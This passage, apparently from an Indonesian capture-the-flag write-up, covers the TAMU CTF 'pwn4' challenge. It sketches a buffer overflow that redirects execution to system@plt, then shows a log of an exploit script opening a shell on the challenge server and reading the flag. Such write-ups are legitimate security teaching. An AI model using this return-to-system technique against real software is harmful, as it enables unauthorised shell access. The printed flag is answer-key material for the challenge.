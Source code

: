 ```FLOW : Jebol ebx-0x1c -> (masuk eip)Rewrite address ke system@plt -> menuhin buffer -> return/panggil shell```
sekarang kita tes ke server soal:
```
blaccmail@localhost:~/Downloads$ python pwn4_exploit.py 
[+] Opening connection to pwn.ctf.tamu.edu on port 4324: Done
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> 
[*] Switching to interactive mode
$ ls
Unkown Command

$ ls
flag.txt
pwn4
$ cat flag.txt
gigem{b4ck_70_7h3_l1br4ry}
```

berhasil :)

# Flag : gigem{b4ck_70_7h3_l1br4ry}

